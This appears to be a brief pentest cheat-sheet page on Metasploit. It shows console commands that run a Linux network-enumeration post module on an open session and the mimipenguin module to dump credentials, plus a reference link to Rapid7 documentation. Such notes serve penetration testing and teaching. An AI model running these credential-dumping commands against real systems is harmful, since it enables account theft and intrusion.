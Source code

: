# Metasploit

```
msf > use post/linux/gather/enum_network

msf post(linux/gather/enum_network) > options

Module options (post/linux/gather/enum_network):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf post(linux/gather/enum_network) > set session <session_ID>

msf post(linux/gather/enum_network) > run
```

Use `mimipenguin` post module to dump credentials.

```
meterpreter > run post/linux/gather/mimipenguin
```

---
## References

- [Rapid7: Metasploit Framework - MimiPenguin Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/linux/gather/mimipenguin.md)